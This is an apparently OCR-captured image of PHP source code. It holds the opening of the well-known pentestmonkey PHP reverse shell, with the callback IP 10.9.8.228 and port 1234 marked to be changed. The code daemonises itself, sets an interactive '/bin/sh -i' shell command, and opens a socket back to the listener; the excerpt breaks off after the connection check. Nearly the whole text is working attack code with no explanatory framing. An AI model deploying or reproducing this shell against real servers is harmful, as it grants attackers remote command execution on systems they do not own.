 ```php
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.8.228';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
```